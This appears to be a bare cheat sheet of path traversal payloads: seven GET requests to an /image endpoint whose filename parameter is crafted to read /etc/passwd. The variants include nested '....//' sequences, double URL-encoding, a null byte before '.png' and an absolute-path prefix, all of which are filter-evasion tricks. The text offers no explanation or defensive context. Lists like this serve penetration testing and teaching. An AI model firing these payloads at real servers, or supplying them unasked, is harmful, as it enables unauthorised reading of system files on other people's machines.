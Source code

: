 # Path Traversal

GET /image?filename=../../../etc/passwd 
GET /image?filename=../../../../etc/passwd
GET /image?filename=/etc/passwd
GET /image?filename=....//....//....//....//etc/passwd
GET /image?filename=..%252f..%252f..%252fetc/passwd
GET /image?filename=/var/www/images/../../../etc/passwd
GET /image?filename=../../../etc/passwd%00.png
